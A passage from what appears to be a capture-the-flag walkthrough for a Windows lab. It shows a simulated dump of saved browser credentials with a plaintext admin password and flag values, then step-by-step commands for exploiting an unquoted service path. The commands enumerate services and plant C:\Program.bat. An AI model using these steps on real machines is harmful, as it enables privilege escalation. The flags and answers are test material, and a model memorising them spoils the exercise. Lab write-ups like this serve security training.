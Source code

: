 **Screenshot Simulation:**
```
{
  "passwords":[
    {
      "url":"http://internal-app",
      "username":"admin",
      "password":"Administrator123",
      "flag":"FLAG{NIDOQUEEN75067246}"
    }
  ]
}
```

**Why:** Browsers store credentials that can be extracted, especially on workstations where users save passwords.

---

## FLAG 10: Unquoted Service Path (25 points - Easy)
**Location:** Unquoted Service Path  
**Flag:** FLAG{NIDOKING94048236}

### Attack Method: Fake Antivirus Service Exploitation

```powershell
# Find unquoted paths
wmic service get name,pathname | findstr /v "\"" | findstr "Program Files"

# Check FakeAntivirus service
sc qc FakeAntivirus

# Exploit: Create file at C:\Program.exe
echo "type C:\ws_unquoted1.txt" > C:\Program.bat

# Restart service (needs admin)
sc stop FakeAntivirus
sc start FakeAntivirus

type C:\ws_unquoted1.txt
```

**Why:** Antivirus services with unquoted paths are ironic but common vulnerabilities.

---

## FLAG 11: Unquoted Service Path 2 (30 points - Medium)
**Location:** Unquoted Service Path 2  
**Flag:** FLAG{CLEFABLE09888919}

### Attack Method: Backup Manager Exploitation
